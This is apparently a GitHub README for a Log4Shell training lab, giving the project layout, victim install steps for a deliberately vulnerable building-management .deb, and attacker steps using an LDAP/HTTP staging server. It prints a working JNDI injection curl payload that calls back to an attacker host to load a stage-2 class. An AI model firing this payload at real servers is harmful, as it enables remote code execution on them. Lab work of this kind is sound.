 M75-LOG4J-VULNERABILITY
-----------------------

# Overview

![](./images/log4j-explained.webp)

# Project Structure

```
.
├── README.md
├── attacker                        # Attacker related files
│   ├── docker-compose.yml          # used to build and run the payload-generator, ldap server and http server containers
│   ├── http-dir                    # http server hosted directory
│   │   ├── Plugin.class            # Java class hosted by the http server ready for the victim (stage 2 payload)
│   │   └── fRitPo                  # Linux bash script (stage 3 payload)
│   ├── marshalsec                  # attacker ldap server
│   └── payload-generator           # dockerized payload generator (used to update jave source and compile it)
│       ├── Dockerfile              
│       └── Plugin.src.java         # stage 2 payload source code
├── images                          # README media
└── victim                          # Victim related files
    ├── Makefile                    # Helper script to build the debian package
    ├── buildingmgmt.1.0-2          # fake building management server/app source
    ├── buildingmgmt.1.0-2.deb      # distributable debian package ready for install
    └── log4shell-vulnerable-app    # log4j vulnerable app
```

### References
- [log4shell-dockerlab](https://javarepos.com/lib/ChoiSG-log4shell-dockerlab)

# Usage

## Victim

1. Download and install the vulnerable web app.
```bash
sudo apt-get update
wget -O /tmp/buildingmgmt.deb https://github.com/sintax1/M75-log4j-vuln/blob/master/victim/buildingmgmt.1.0-2.deb?raw=true
sudo apt install -y /tmp/buildingmgmt.deb
```

## Attacker

1. clone the source repo onto the attacker VM.

```
git clone https://github.com/sintax1/M75-log4j-vuln.git
```

2. Build and run the docker containers.

```
cd M75-log4j-vuln/victim
docker-compose up --build
```

3. Launch the exploit.

```
VICTIM=<The victim accessible IP or domain name accessible by the attacker>
VICTIM_VULN_PORT=<The port where the log4j vulnerable web app is running on the victim>
ATTACKER=<The attacker IP or Domain name accessible by the victim, for callbacks>
LDAP_PORT=1389
STAGE2_JAVA_CLASS_NAME=Plugin
curl ${VICTIM}:${VICTIM_VULN_PORT} -H 'X-Api-Version: ${jndi:ldap://${ATTACKER}:${LDAP_PORT}/${STAGE2_JAVA_CLASS_NAME}}'
```

# Development

## Victim

### Build Java stage 2 payload

> Note: Requires gradle java builder

```bash
cd victim/log4shell-vulnerable-app; gradle bootJar --no-daemon
cp build/libs/*.jar ../buildingmgmt.1.0-2/building-management.jar
```

### Build .deb package

```bash
# Use docker to build so you don't need to install debian build tools locally
git clone https://github.com/tsaarni/docker-deb-builder.git

# Build the build cotnainer
cd docker-deb-builder
docker build -t docker-deb-builder:20.04 -f Dockerfile-ubuntu-20.04 .

# create the output dir for the .deb pkg
mkdir output

# Build
./build -i docker-deb-builder:20.04 -o output <path to debian source>


cd victim
make build

-- output --
cd log4shell-vulnerable-app; gradle bootJar --no-daemon
To honour the JVM settings for this build a single-use Daemon process will be forked. See https://docs.gradle.org/7.4.1/userguide/gradle_daemon.html#sec:disabling_the_daemon.
Daemon will be stopped at the end of the build 

BUILD SUCCESSFUL in 4s
4 actionable tasks: 4 up-to-date
cp log4shell-vulnerable-app/build/libs/*.jar buildingmgmt.1.0-2/opt/buildingmgmt/building-management.jar
dpkg-deb --build buildingmgmt.1.0-2
dpkg-deb: building package 'buildingmgmt' in 'buildingmgmt.1.0-2.deb'.
```

### Transfer to the victim and install

```bash
apt install buildingmgmt.*.deb
```